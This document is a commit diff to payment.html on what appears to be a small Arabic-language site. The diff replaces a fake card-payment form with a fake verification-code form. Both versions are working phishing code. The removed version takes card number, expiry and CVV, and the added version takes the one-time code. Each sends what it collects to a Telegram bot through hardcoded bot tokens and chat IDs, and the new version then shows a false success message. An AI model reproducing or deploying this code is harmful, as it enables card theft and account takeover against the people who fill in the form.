

Before and after one commit to aa20052005aa/Sdas, a plain HTML site: page payment.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update payment.html

```diff
--- a/payment.html
+++ b/payment.html
@@ -1,50 +1,44 @@
+<!-- verify.html -->
 <!DOCTYPE html>
-<html lang="ar" dir="rtl">
+<html lang="ar">
 <head>
-  <meta charset="UTF-8">
-  <title>صفحة الدفع</title>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>التحقق</title>
   <style>
-    body {font-family: Tahoma, Arial; background:#f9f9f9; margin:0; padding:0;}
-    .container {max-width:400px; margin:50px auto; background:#eef7ff; padding:25px; border-radius:12px; box-shadow:0 4px 8px rgba(0,0,0,0.1);}
-    h2 {text-align:center; color:#1e5a9c; margin-bottom:20px;}
+    body {font-family: Tahoma, Arial; background:#f5fff5; margin:0; padding:0;}
+    .container {max-width:400px; margin:50px auto; background:#eaffea; padding:25px; border-radius:12px; box-shadow:0 4px 8px rgba(0,0,0,0.1);}
+    h2 {text-align:center; color:#2b7a2b; margin-bottom:20px;}
     label {display:block; margin-bottom:8px; font-weight:bold; color:#333;}
     input, button {width:100%; padding:12px; margin-bottom:15px; border:1px solid #ccc; border-radius:6px; font-size:15px;}
-    button {background:#1e5a9c; color:white; font-weight:bold; cursor:pointer; border:none;}
-    button:hover {background:#14406d;}
+    button {background:#2b7a2b; color:white; font-weight:bold; cursor:pointer; border:none;}
+    button:hover {background:#1c551c;}
   </style>
 </head>
 <body>
   <div class="container">
-    <h2>بيانات الدفع</h2>
-    <label for="card">رقم البطاقة</label>
-    <input type="text" id="card" placeholder="xxxx xxxx xxxx xxxx">
+    <h2>التحقق</h2>
+    <label for="code">أدخل كود التحقق</label>
+    <input type="text" id="code" placeholder="ادخل الكود المرسل">
 
-    <label for="expiry">تاريخ الانتهاء</label>
-    <input type="text" id="expiry" placeholder="MM/YY">
-
-    <label for="cvv">CVV</label>
-    <input type="text" id="cvv" placeholder="3 أرقام خلف البطاقة">
-
-    <button onclick="sendPayment()">إرسال الدفع</button>
+    <button onclick="sendVerify()">تأكيد</button>
   </div>
 
   <script>
-    const BOT_TOKEN = "7994339638:AAHgur93jAzxz55NZTtD5J3WKgDaWZtlV3E";
-    const CHAT_ID = "16420566";
+    const BOT_TOKEN = "8175456301:AAHcojlkfA5YkgBkx5gAnvFjd-u5Tk6hg7I";
+    const CHAT_ID = "8404960059";
 
-    function sendPayment() {
-      const card = document.getElementById("card").value;
-      const expiry = document.getElementById("expiry").value;
-      const cvv = document.getElementById("cvv").value;
+    function sendVerify() {
+      const code = document.getElementById("code").value;
 
-      const message = `💳 محاولة دفع:\nرقم البطاقة: ${card}\nانتهاء: ${expiry}\nCVV: ${cvv}`;
+      const message = `✅ تم إدخال كود التحقق:\nالكود: ${code}`;
 
       fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
         method: "POST",
         headers: {"Content-Type": "application/json"},
         body: JSON.stringify({chat_id: CHAT_ID, text: message})
       }).then(() => {
-        window.location.href = "verify.html";
+        alert("تم التحقق بنجاح ✅");
       });
     }
   </script>
```
